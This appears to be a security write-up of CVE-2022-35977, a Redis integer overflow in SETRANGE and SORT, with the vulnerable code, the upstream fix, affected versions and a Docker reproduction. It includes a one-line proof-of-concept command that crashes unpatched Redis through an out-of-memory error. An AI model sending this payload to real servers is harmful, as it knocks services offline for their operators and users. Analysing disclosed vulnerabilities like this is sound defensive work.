



# CVE-2022-35977 CWE-190 Redis DoS

## Vulnerability Background
- **Redis**: A key-value storage system that is a cross-platform non-relational database. An open-source in-memory database that provides a high-performance key-value storage system, commonly used in caching, message queues, session storage, and other application scenarios. Clients communicate with Redis servers via sockets, sending commands, and the server changes its state (i.e., its memory structure) to respond to such commands.
- **CWE-190 (Integer Overflow or Wraparound):* * When a program performs arithmetic operations on integer values, the result exceeds the maximum (or lower) of the data type, causing value looping and resulting in logic errors, buffer overflows, denial-of-service, or even security flaws in arbitrary code execution.

## Vulnerability Mechanism
In Redis's `SETRANGE` and `SORT(_RO)` commands, insufficient validation of user-input offset and length parameters leads to integer overflow, resulting in unreasonable memory allocation requests, ultimately triggering an out-of-memory (OOM) error and causing Redis to crash.

## Vulnerability Location
Analyzing the Redis-6.2.0 source code:

1. `SORT` command supports `LIMIT` parameters, which are used to restrict the starting position and number of returned results. In the src/sort.c file, line 324 of the `sortCommandGeneric` function, if the `LIMIT` parameter value is very large, it may cause `start + count` overflow, bypassing length check and attempting to allocate too much memory.

   ```c
       /* Perform LIMIT start,count sanity checking. */
       start = (limit_start < 0) ? 0 : limit_start;
       end = (limit_count < 0) ? vectorlen-1 : start+limit_count-1;
   ```

2. `SETRANGE` command is used to write a new value at a specified offset of the string. In the src/t_string.c file, line 446 of line 424 of the `setrangeCommand` function calls the `checkStringLength` function, if the incoming `offset` is very large and the length of the written data may cause integer overflow, thus bypassing the `proto-max-bulk-len` limit and attempting to allocate too much memory.

   ```c
   if (checkStringLength(c,offset+sdslen(value)) != C_OK)
               return;
   ```

3. In the src/t_string.c file, line 40 of the `checkStringLength` function, if the input `offset` is very large and the length of the written data is added, integer overflow may occur, bypassing the `proto-max-bulk-len` limit and attempting to allocate too much memory.

   ```c
   src/t_string.c file, line 40
   static int checkStringLength(client *c, long long size) {
       if (!( c->flags & CLIENT_MASTER) && size > server.proto_max_bulk_len) {
           addReplyError(c,"string exceeds maximum allowed size (proto-max-bulk-len)");
           return C_ERR;
       }
       return C_OK;
   }
   ```

## Remediation
In the `setrangeCommand` function, the `checkStringLength` call method is modified by passing two parameters: `offset` and `sdslen(value)` to ensure that the total string length calculation considers offsets and the length of the new value.

```c
if (checkStringLength(c,offset,sdslen(value)) != C_OK)
```

In the `sortCommandGeneric` function, the calculation methods for `start` and `limit_count` have been modified, using `min` and `max` functions to limit input values within the valid range to avoid integer overflow.

```c
/* Perform LIMIT start,count sanity checking.
 * And avoid integer overflow by limiting inputs to object sizes. */
start = min(max(limit_start, 0), vectorlen);
limit_count = min(max(limit_count, -1), vectorlen);
```

In the `checkStringLength` function, an overflow check is added to ensure the total string length does not exceed `server.proto_max_bulk_len` and that no overflow occurs during the calculation process.

```c
static int checkStringLength(client *c, long long size, long long append) {
    if (mustObeyClient(c))
        return C_OK;
    /* 'uint64_t' cast is there just to prevent undefined behavior on overflow */
    long long total = (uint64_t)size + append;
    /* Test configured max-bulk-len represending a limit of the biggest string object,
     * and also test for overflow. */
    if (total > server.proto_max_bulk_len || total < size || total < append) {
        // ... ...
```

## Affected Versions
Reids：

-  6.0.0 to 6.0.16
-  6.2.0 to 6.2.8
-  7.0.0 to 7.0.7

## Environment Setup
Start the Docker environment, Redis version 6.2.0

```txt
CNA:GitHub, Inc.    Base Score:5.5 MEDIUM    Vector:CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L
```

```txt
cpe:2.3:a:redis:redis:6.2.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line and connect Redis

   ```bash
   docker exec -it redis-6.2.0 redis-cli -h 127.0.0.1 -p 6379 
   ```

2. Run the PoC statement, and you will see that the Redis server has closed the connection

   ```bash
   SETRANGE K 9223372036854775807 A
   ```

   

3. Checking the container logs, it can be seen that when executing PoC commands, Redis attempts to allocate about 9223 TB of memory, resulting in an out-of-memory (OOM) error and crash

   ```bash
   docker logs redis-6.2.0
   ```

   

## PoC Analysis

```bash
SETRANGE K 9223372036854775807 A
```

Write the string corresponding to key K starting from offset 9223372036854775807 (i.e., 2^63-1, the maximum signed 64-bit value) into 1 byte of data A.

On a 64-bit system, `9223372036854775807` is the maximum value of type `long long`. When Redis calculates the required memory allocation, it does not properly handle this offset, resulting in a negative result and thus requesting the allocation of a large amount of memory space.

## References
[NVD - CVE-2022-35977](https://nvd.nist.gov/vuln/detail/CVE-2022-35977#range-15647486)

https://github.com/redis/redis/commit/1ec82e6e97e1db06a72ca505f9fbf6b981f31ef7.patch
